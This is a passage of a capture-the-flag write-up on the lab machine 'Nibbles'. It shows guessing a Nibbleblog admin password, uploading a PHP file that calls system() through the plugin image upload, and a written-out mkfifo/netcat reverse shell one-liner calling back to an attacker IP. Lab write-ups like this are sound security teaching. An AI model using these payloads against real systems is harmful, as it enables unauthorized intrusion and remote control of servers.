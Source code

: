 Now, we have a valid admin user name, but we don't have a password...

### config.xml

In the `/nibbleblog/content/private/` directory we can found another interesting file: `config.xml`.
If we check the `config.xml` file, we will not find any password, but we found three mentions of `nibbles`, one in the notification mail address...

```xml
<name type="string">Nibbles</name>
<notification_email_to type="string">admin@nibbles.com</notification_email_to>
<seo_site_title type="string">Nibbles - Yum yum</seo_site_title>
```

# Foothold

At this point, with the brute force option ruled out, we should have to take a leap of faith.
We will try `nibbles` as the admin account password.

It worked!

![Nibbleblog admin dashboard](htb-nibbles-nibbles-admin-dashboard.png)
*Nibbleblog admin dashboard*

It seems that we can upload files from the section `Plugins`.
So, we can upload a PHP snippet code to verify that we can upload files and if they can be used for code execution.

We create a file `ce_test.php` with the following content:

```php
<?php system('id'); ?>
```

Leaving aside a bunch of errors, it seems that the file has been uploaded.

The file was uploaded in the `/nibbleblog/content/private/plugins/my_image/`, but renamed to `image.php`.
Let's check if we have command execution:

```
$ curl http://10.0.0.2/nibbleblog/content/private/plugins/my_image/image.php

uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
```

We have code execution, so we need to obtain a reverse shell. 
In order to do this, we create a file `rs.php` with the following bash one-liner reverse shell:

```php
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f"); ?>
```

We upload it again and we can see that is renamed to `image.php` again.

Now we need to start a netcat listener on our host (the attacker):
